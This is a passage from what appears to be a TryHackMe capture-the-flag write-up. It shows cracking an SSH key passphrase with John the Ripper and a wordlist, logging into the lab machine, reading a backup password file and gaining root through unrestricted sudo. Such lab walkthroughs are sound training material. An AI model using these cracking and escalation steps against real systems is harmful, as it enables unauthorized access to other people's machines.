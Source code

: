 And now we can find passphrase with `john`

{% highlight console %}
m0rn1ngstr@kali:~/THM/BP/ssh$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt crack_ssh.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
fakepass2          (id_rsa)
1g 0:00:00:12 DONE (2020-07-15 11:43) 0.07818g/s 1121Kp/s 1121Kc/s 1121KC/sa6_123..*7¡Vamos!
Session completed
{% endhighlight %}

Passphrase is `fakepass2`. Now connect to machine.
{% highlight console %}
m0rn1ngstr@kali:~/THM/BP/ssh$ ssh -i id_rsa kay@10.10.133.22
Enter passphrase for key 'id_rsa': fakepass2
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102

kay@basic2:~$

{% endhighlight %}

Now we can access that `pass.bak` file:
{% highlight console %}
kay@basic2:~$ cat pass.bak 
fakepass3
{% endhighlight %}

So, it is a finish of the room, but we can move forward and try to get root.

## Privilege escallation
Let's check if kay can run something with sudo:
{% highlight console %}
kay@basic2:~$ sudo -l
[sudo] password for kay: fakepass3
Matching Defaults entries for kay on basic2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kay may run the following commands on basic2:
    (ALL : ALL) ALL

{% endhighlight %}

That's a jackpot. The easiest privilege escalation.

{% highlight console %}
kay@basic2:~$ sudo su
root@basic2:/home/kay# id
uid=0(root) gid=0(root) groups=0(root)

{% endhighlight %}

### That's it for this machine. Thank you for sticking up with me. Stay safe and happy hacking!
